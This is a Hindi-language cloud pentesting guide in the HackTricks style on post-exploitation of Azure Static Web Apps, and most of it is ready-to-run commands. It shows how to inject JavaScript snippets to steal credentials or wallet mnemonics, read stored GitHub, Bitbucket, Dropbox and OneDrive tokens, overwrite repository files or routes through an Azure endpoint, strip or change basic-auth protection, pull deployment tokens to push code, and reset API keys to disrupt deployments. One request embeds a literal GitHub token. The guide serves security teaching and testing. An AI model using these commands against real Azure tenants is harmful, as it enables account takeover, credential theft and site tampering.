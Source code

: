 # Az - Static Web Apps Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Azure Static Web Apps

इस सेवा के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-static-web-apps.md
{{#endref}}

### Microsoft.Web/staticSites/snippets/write

एक स्निप्पेट बनाकर एक स्थिर वेब पृष्ठ को मनमाने HTML कोड को लोड करना संभव है। इससे एक हमलावर को वेब ऐप के अंदर JS कोड इंजेक्ट करने और संवेदनशील जानकारी जैसे क्रेडेंशियल या म्नेमोनिक कुंजी (वेब3 वॉलेट में) चुराने की अनुमति मिल सकती है।

निम्नलिखित कमांड एक स्निप्पेट बनाएगी जो हमेशा वेब ऐप द्वारा लोड की जाएगी::
```bash
az rest \
--method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/snippets/<snippet-name>?api-version=2022-03-01" \
--headers "Content-Type=application/json" \
--body '{
"properties": {
"name": "supersnippet",
"location": "Body",
"applicableEnvironmentsMode": "AllEnvironments",
"content": "PHNjcmlwdD4KYWxlcnQoIkF6dXJlIFNuaXBwZXQiKQo8L3NjcmlwdD4K",
"environments": [],
"insertBottom": false
}
}'
```
### कॉन्फ़िगर की गई तीसरी पार्टी क्रेडेंशियल्स पढ़ें

जैसा कि ऐप सेवा अनुभाग में समझाया गया है:

{{#ref}}
../az-privilege-escalation/az-app-services-privesc.md
{{#endref}}

निम्नलिखित कमांड चलाकर **तीसरी पार्टी क्रेडेंशियल्स** पढ़ना संभव है जो वर्तमान खाते में कॉन्फ़िगर की गई हैं। ध्यान दें कि यदि उदाहरण के लिए कुछ Github क्रेडेंशियल्स किसी अन्य उपयोगकर्ता में कॉन्फ़िगर किए गए हैं, तो आप किसी अन्य से टोकन तक पहुँच नहीं पाएंगे।
```bash
az rest --method GET \
--url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```
यह कमांड Github, Bitbucket, Dropbox और OneDrive के लिए टोकन लौटाता है।

यहाँ टोकन की जांच करने के लिए कुछ कमांड उदाहरण दिए गए हैं:
```bash
# GitHub – List Repositories
curl -H "Authorization: token <token>" \
-H "Accept: application/vnd.github.v3+json" \
https://api.github.com/user/repos

# Bitbucket – List Repositories
curl -H "Authorization: Bearer <token>" \
-H "Accept: application/json" \
https://api.bitbucket.org/2.0/repositories

# Dropbox – List Files in Root Folder
curl -X POST https://api.dropboxapi.com/2/files/list_folder \
-H "Authorization: Bearer <token>" \
-H "Content-Type: application/json" \
--data '{"path": ""}'

# OneDrive – List Files in Root Folder
curl -H "Authorization: Bearer <token>" \
-H "Accept: application/json" \
https://graph.microsoft.com/v1.0/me/drive/root/children
```
### Overwrite file - Overwrite routes, HTML, JS...

यह संभव है कि **Github repo** के अंदर एक फ़ाइल को **overwritte** किया जाए जिसमें ऐप हो, Azure के माध्यम से **Github token** का उपयोग करके एक अनुरोध भेजकर जैसे कि निम्नलिखित, जो फ़ाइल के पथ, फ़ाइल की सामग्री और कमिट संदेश को इंगित करेगा।

इसका दुरुपयोग हमलावरों द्वारा किया जा सकता है ताकि वे मूल रूप से **वेब ऐप की सामग्री को बदल सकें** ताकि दुर्भावनापूर्ण सामग्री (क्रेडेंशियल्स, म्नेमोनिक कीज़ चुराना...) प्रदान की जा सके या बस **कुछ पथों को** अपने सर्वरों पर पुनः मार्गित करने के लिए `staticwebapp.config.json` फ़ाइल को ओवरराइट करके।

> [!WARNING]
> ध्यान दें कि यदि कोई हमलावर किसी भी तरह से Github repo को समझौता करने में सफल होता है, तो वे Github से सीधे फ़ाइल को भी ओवरराइट कर सकते हैं।
```bash
curl -X PUT "https://functions.azure.com/api/github/updateGitHubContent" \
-H "Content-Type: application/json" \
-d '{
"commit": {
"message": "Update static web app route configuration",
"branchName": "main",
"committer": {
"name": "Azure App Service",
"email": "donotreply@microsoft.com"
},
"contentBase64Encoded": "ewogICJuYXZpZ2F0aW9uRmFsbGJhY2siOiB7CiAgICAicmV3cml0ZSI6ICIvaW5kZXguaHRtbCIKICB9LAogICJyb3V0ZXMiOiBbCiAgICB7CiAgICAgICJyb3V0ZSI6ICIvcHJvZmlsZSIsCiAgICAgICJtZXRob2RzIjogWwogICAgICAgICJnZXQiLAogICAgICAgICJoZWFkIiwKICAgICAgICAicG9zdCIKICAgICAgXSwKICAgICAgInJld3JpdGUiOiAiL3AxIiwKICAgICAgInJlZGlyZWN0IjogIi9sYWxhbGEyIiwKICAgICAgInN0YXR1c0NvZGUiOiAzMDEsCiAgICAgICJhbGxvd2VkUm9sZXMiOiBbCiAgICAgICAgImFub255bW91cyIKICAgICAgXQogICAgfQogIF0KfQ==",
"filePath": "staticwebapp.config.json",
"message": "Update static web app route configuration",
"repoName": "carlospolop/my-first-static-web-app",
"sha": "4b6165d0ad993a5c705e8e9bb23b778dff2f9ca4"
},
"gitHubToken": "gho_1OSsm834ai863yKkdwHGj31927PCFk44BAXL"
}'
```
### Microsoft.Web/staticSites/config/write

इस अनुमति के साथ, यह **पासवर्ड को संशोधित करना** संभव है जो एक स्थिर वेब ऐप की सुरक्षा करता है या यहां तक कि हर वातावरण को अनलॉक करने के लिए निम्नलिखित अनुरोध भेजना:
```bash
# Change password
az rest --method put \
--url "/subscriptions/<subcription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/config/basicAuth?api-version=2021-03-01" \
--headers 'Content-Type=application/json' \
--body '{
"name": "basicAuth",
"type": "Microsoft.Web/staticSites/basicAuth",
"properties": {
"password": "SuperPassword123.",
"secretUrl": "",
"applicableEnvironmentsMode": "AllEnvironments"
}
}'

# Remove the need of a password
az rest --method put \
--url "/subscriptions/<subcription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/config/basicAuth?api-version=2021-03-01" \
--headers 'Content-Type=application/json' \
--body '{
"name": "basicAuth",
"type": "Microsoft.Web/staticSites/basicAuth",
"properties": {
"secretUrl": "",
"applicableEnvironmentsMode": "SpecifiedEnvironments",
"secretState": "None"
}
}'
```
### Microsoft.Web/staticSites/listSecrets/action

यह अनुमति **API कुंजी तैनाती टोकन** प्राप्त करने की अनुमति देती है जो स्थिर ऐप के लिए है।

यह टोकन ऐप को तैनात करने की अनुमति देता है।
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/listSecrets?api-version=2023-01-01"
```
फिर, एक ऐप को अपडेट करने के लिए आप निम्नलिखित कमांड चला सकते हैं। ध्यान दें कि यह कमांड **कैसे Github Action [https://github.com/Azure/static-web-apps-deploy](https://github.com/Azure/static-web-apps-deploy) काम करता है** की जांच करके निकाली गई थी, क्योंकि यह वह है जिसे Azure ने डिफ़ॉल्ट रूप से उपयोग करने के लिए सेट किया है। इसलिए चित्र और पैरामीटर भविष्य में बदल सकते हैं।

1. रेपो डाउनलोड करें [https://github.com/staticwebdev/react-basic](https://github.com/staticwebdev/react-basic) (या कोई अन्य रेपो जिसे आप तैनात करना चाहते हैं) और `cd react-basic` चलाएँ।
2. उस कोड को बदलें जिसे आप तैनात करना चाहते हैं
3. इसे तैनात करें (याद रखें कि `<api-token>` बदलना है):
```bash
docker run -it --rm -v $(pwd):/mnt mcr.microsoft.com/appsvc/staticappsclient:stable INPUT_AZURE_STATIC_WEB_APPS_API_TOKEN=<api-token> INPUT_APP_LOCATION="/mnt" INPUT_API_LOCATION="" INPUT_OUTPUT_LOCATION="build" /bin/staticsites/StaticSitesClient upload --verbose
```
### Microsoft.Web/staticSites/write

इस अनुमति के साथ, **स्टेटिक वेब ऐप के स्रोत को एक अलग Github रिपॉजिटरी में बदलना संभव है**, हालाँकि, इसे स्वचालित रूप से प्रोविजन नहीं किया जाएगा क्योंकि यह आमतौर पर उस टोकन के साथ Github Action से किया जाना चाहिए जिसने क्रिया को अधिकृत किया है, क्योंकि यह टोकन स्वचालित रूप से रिपॉजिटरी के Github सीक्रेट्स के अंदर अपडेट नहीं होता (यह केवल ऐप के निर्माण के समय स्वचालित रूप से जोड़ा जाता है)।
```bash
az staticwebapp update --name my-first-static-web-app --resource-group Resource_Group_1 --source https://github.com/carlospolop/my-first-static-web-app -b main
```
### Microsoft.Web/staticSites/resetapikey/action

इस अनुमति के साथ **स्टेटिक वेब ऐप के API कुंजी को रीसेट करना संभव है** जो संभावित रूप से ऐप को स्वचालित रूप से तैनात करने वाले वर्कफ़्लो को DoS कर सकता है।
```bash
az rest --method POST \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/staticSites/<app-name>/resetapikey?api-version=2019-08-01"
```
{{#include ../../../banners/hacktricks-training.md}}
